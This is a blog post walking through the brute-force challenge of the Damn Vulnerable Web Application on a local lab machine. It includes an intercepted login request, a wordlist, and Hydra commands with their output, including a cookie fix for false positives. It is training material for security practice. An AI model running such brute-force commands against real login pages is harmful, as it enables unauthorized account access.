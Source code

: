 ```yaml
---
layout: post
title:  "DVWA Brute Force"
subtitle: "Damn Vulnerable Web Application"
date:   2017-02-18 12:00:00 -0500
author: "coastal"
header-img: "images/site-resources/dvwa-header.jpg"
---
```


After I took a bit of a break from the netsec stuff to work on a personal project, my [BitTorrent client](https://github.com/spencerdodd/coast), I am back working on some practice apps again. This series I'm going to be focusing on the OWASP's Damn Vulnerable Web App (DVWA). The first challenge in the app is a brute force for a login page. Let's try a test request and intercept the traffic to see how the login functions:

```
GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login
Cookie: security=low; JSESSIONID=C7D25AE3371371E9E3003D67F7FC0CB0; acopendivids=swingset,dvwa,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=4c0ndf5r1fgerkl58uo6kna4b1
Connection: close
Upgrade-Insecure-Requests: 1
```

Alright, so if we take a look at the ```GET``` request formatting we see that our username and password are just appended onto the ```http://192.168.56.101/dvwa/vulnerabilities/brute/```. 

```
GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP/1.1
```

As expected the request fails, but we learn the fail condition for the login from the response page.

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/brute-fail.jpg">


```
Username and/or password incorrect.
```

Let's make a wordlist for the user and admin profiles:

```
root@kali:~/Desktop# cat test-list.txt
user1
user2
user3
user
admin1
admin2
admin3
admin
```

Since we do already know the passwords for these profiles, this is more of an exercise in learning a new tool. For cracking this login we're going to use the Hydra tool. Since we've already written a number of brute-forcing scripts in python and understand how they work at a low-level, let's use Hydra to perform a more robust and 'professional' cracking experience. It is included by default in Kali distributions and has great functionality for network cracking. Taken from the [host site](http://sectools.org/tool/hydra/), it is clear that Hydra is a true multi-tool with capabilities to attack: ```telnet, ftp, http, https, smb, several databases, and much more```. Let's see if we can formulate a command for our login page to send it through the Hydra pipeline. 


```
root@kali:~/Desktop# hydra -l admin -P /root/Desktop/test-list.txt -o /root/Desktop/brute-attack.txt 192.168.56.101 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-02-18 21:22:38
[DATA] max 8 tasks per 1 server, overall 64 tasks, 8 login tries (l:1/p:8), ~0 tries per task
[DATA] attacking service http-get-form on port 80
[80][http-get-form] host: 192.168.56.101   login: admin   password: user
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin1
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin2
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin
[80][http-get-form] host: 192.168.56.101   login: admin   password: user1
[80][http-get-form] host: 192.168.56.101   login: admin   password: user2
[80][http-get-form] host: 192.168.56.101   login: admin   password: user3
[80][http-get-form] host: 192.168.56.101   login: admin   password: admin3
1 of 1 target successfully completed, 8 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-02-18 21:22:40

```

Hmm..well it looks like every one of our username/password requests is returning true. Let's think about any requests to the DVWA without authentication (which we have not included in our requests). If we try to request the brute-force page without a login ```http://192.168.56.101/dvwa/vulnerabilities/brute/```, we are redirected to the login page:

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/unauthenticated-login.jpg">

Aha! So since we are not authenticated when we make the login attempts, we are redirected to the login page which doesn't contain our false-result flag, and therefore is evaluated to a positive login. So let's attach some authentication to our Hydra attempts by taking authentication cookies from an intercepted request and appending it to the ```H=``` flag in our command:

```
root@kali:~/Desktop# hydra -l user -P /root/Desktop/test-list.txt -o /root/Desktop/brute-attack.txt 192.168.56.101 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=af2qff46iqe3c71vvn3l7tmde1"
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-02-18 20:11:04
[DATA] max 8 tasks per 1 server, overall 64 tasks, 8 login tries (l:1/p:8), ~0 tries per task
[DATA] attacking service http-get-form on port 80
[80][http-get-form] host: 192.168.56.101   login: user   password: user
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-02-18 20:11:06
```

<img src="{{ site.baseurl }}/images/dvwa/01_brute_force/brute-success.jpg">

And we've got it! Hydra seems like a great tool, is quick, and has a wide variety of supported protocol attacks. I'll probably try to use it more frequently when attacking user/server login protocols.
